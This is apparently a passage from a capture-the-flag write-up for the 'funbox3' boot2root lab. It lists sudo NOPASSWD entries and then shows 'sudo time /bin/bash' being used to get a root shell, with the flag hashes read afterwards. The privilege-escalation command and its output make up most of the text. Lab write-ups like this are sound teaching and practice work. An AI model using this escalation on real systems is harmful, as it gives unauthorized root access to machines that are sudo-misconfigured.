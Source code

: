     (root) NOPASSWD: /usr/bin/yelp

    (root) NOPASSWD: /usr/bin/dmf

    (root) NOPASSWD: /usr/bin/whois

    (root) NOPASSWD: /usr/bin/rlogin

    (root) NOPASSWD: /usr/bin/pkexec

    (root) NOPASSWD: /usr/bin/mtr

    (root) NOPASSWD: /usr/bin/finger

    (root) NOPASSWD: /usr/bin/time

    (root) NOPASSWD: /usr/bin/cancel

    (root) NOPASSWD: /root/a/b/c/d/e/f/g/h/i/j/k/l/m/n/o/q/r/s/t/u/v/w/x/y/z/.smile.sh

  

I can escalate through the time command

  

tony@funbox3:/$ sudo time /bin/bash

root@funbox3:/# cd

root@funbox3:~# ls

proof.txt  root.flag  snap

root@funbox3:~# cat root.flag 

Your flag is in another file...

root@funbox3:~# cat proof.txt 

50e46a8fbd4f1793c405c4e99729065a

root@funbox3:~# whoami

root

I had to go back and look for the now root flag which was here

  

root@funbox3:/# cd var/www/

root@funbox3:/var/www# ls

html  local.txt

root@funbox3:/var/www# cat local.txt 

9a865fd61ade324bb6f8ef8831d5964b

boot2root